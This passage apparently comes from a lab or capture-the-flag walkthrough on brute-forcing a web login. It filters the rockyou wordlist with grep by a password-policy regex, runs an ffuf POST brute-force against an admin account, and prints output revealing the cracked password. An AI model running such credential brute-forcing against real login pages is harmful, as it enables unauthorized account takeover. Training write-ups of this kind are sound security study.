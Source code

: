 Password is:

```
Ramirez120992
```

### Alternative filtering
---


We can do the following wordlist filter too:

```bash
grep -P '^(?=.*[A-Z])(?=.*[a-z])(?=.*\d).{10,}$' /usr/share/wordlists/rockyou.txt > filtered_rockyou.txt
```

```ad-important
#### Breakdown
---
(GNU grep with `-P`):

- `-P`: Enables Perl-Compatible Regular Expressions (PCRE).
    
- `(?=.*[A-Z])`: Lookahead for at least one uppercase character.
    
- `(?=.*[a-z])`: Lookahead for at least one lowercase character.
    
- `(?=.*\d)`: Lookahead for at least one digit.
    
- `.{10,}`: Ensures a minimum length of 10 characters.

```

And we'll get the same output:

```
ffuf -w filtered_rockyou.txt -u http://94.237.55.96:36280/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.96:36280/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/filtered_rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username
________________________________________________

Ramirez120992           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 204ms]
```

